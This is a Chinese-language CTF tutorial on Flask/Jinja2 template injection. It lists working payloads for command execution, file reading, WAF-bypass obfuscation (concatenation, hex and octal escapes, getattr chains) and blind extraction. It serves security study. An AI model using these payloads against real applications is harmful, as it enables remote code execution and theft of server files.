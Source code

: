 ```yaml
---
title: SSTI
---
```


# SSTI

SSTI为模板注入，以下皆为 Python3 环境

首先由于模板解析的特性，当使用 render_template_string 则可以通过各个类之间的调用造成命令执行

```
render_template_string("{{1+1}}")
```

这一解析方法时就会把输入的内容直接放入页面解析，通常的检测方法为 

```
{{1+1}}
```

返回的是 2，这也说明其中的内容被执行。

而安全的方法是

```
render_template("{{1+1}}")
```

返回的是 

```
{{1+1}}
```



## 利用方法

通常是通过某一对象向上寻找基类，进而使用包含某些特殊方法的类，并调用其中的危险函数来执行命令

以下为 flask 的常见可用类

```
75 <class '_frozen_importlib._ModuleLock'>
76 <class '_frozen_importlib._DummyModuleLock'>
77 <class '_frozen_importlib._ModuleLockManager'>
78 <class '_frozen_importlib._installed_safely'>
79 <class '_frozen_importlib.ModuleSpec'>
91 <class '_frozen_importlib_external.FileLoader'>
92 <class '_frozen_importlib_external._NamespacePath'>
93 <class '_frozen_importlib_external._NamespaceLoader'>
95 <class '_frozen_importlib_external.FileFinder'>
103 <class 'codecs.IncrementalEncoder'>
104 <class 'codecs.IncrementalDecoder'>
105 <class 'codecs.StreamReaderWriter'>
106 <class 'codecs.StreamRecoder'>
128 <class 'os._wrap_close'>
129 <class '_sitebuiltins.Quitter'>
130 <class '_sitebuiltins._Printer'>
```

当确定存在模板注入后就是先寻找可用类

```
{{''.__class__.__mro__[1].__subclasses__()}}

__class__ 返回调用的参数类型
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
```

class 返回 str 类，str的基类是 object类，之后返回object的子类，就可以实现多种方法

例如命令执行：

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

文件读取：

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/this_is_the_flag.txt').read()}}
```



## WAF绕过

很多 Python 中的语法在 SSTI 中也都是可以用的

比如通过 + 进行拼接绕过关键字，也可以使用 “” 进行拼接，或者 `"str1".__add__("str2")` 的方式

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").pop'+'en("ls").read()')}}
{{[].__class__.__base__.__subclasses__()[75].__init__.__globals__.__builtins__["open"]("/fl""ag").read()}}
{{app.__init__.__globals__["__buil".__add__("tins__")].open("/fla".__add__("g")).read()}}
```

通过模板解析绕过 . 和 _

```
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[342]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os')["popen"]("ls")["read"]()}}
```

或者在无回显的时候进行盲注 `177 threading.Semaphore`

```
{% if ''.__class__.__mro__[-1].__subclasses__()[177].__init__.__globals__['__bui'+'ltins__']['open']('/app/flag').read()[0:1]=='f' %}xxx{% endif %}
```

也有特殊的可用类 `<class 'subprocess.Popen'>` 直接执行命令

```
{{''.__class__.__mro__[-1].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

或者利用 getattr 进行沙箱逃逸

```
getattr(getattr(getattr(getattr(getattr(getattr(getattr([],'__cla'+'ss__'),'__mr'+'o__')[1],'__subclas'+'ses__')()[104],'__init__'),'__glob'+'al'+'s__')['sy'+'s'],'mod'+'ules')['o'+'s'],'sy'+'ste'+'m')('l'+'s')
```

和利用八进制绕过

```
{%print%0a(lipsum|attr("\137\137\147\154\157\142\141\154\163\137\137"))|attr("\137\137\147\145\164\151\164\145\155\137\137")("\137\137\142\165\151\154\164\151\156\163\137\137")|attr("\137\137\147\145\164\151\164\145\155\137\137")("\145\166\141\154")("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\160\157\160\145\156\50\47\143\141\164\40\57\146\154\141\147\47\51\56\162\145\141\144\50\51")%}
```



## 其他方法

查看对象属性

```
(对象名).func_globals  
(对象名).__code__.co_consts 
(对象名).__code__.co_names
(对象名).__dict__
(对象名).__globals__
```



## 相关题目

BUUCTF		[BJDCTF 2nd]fake google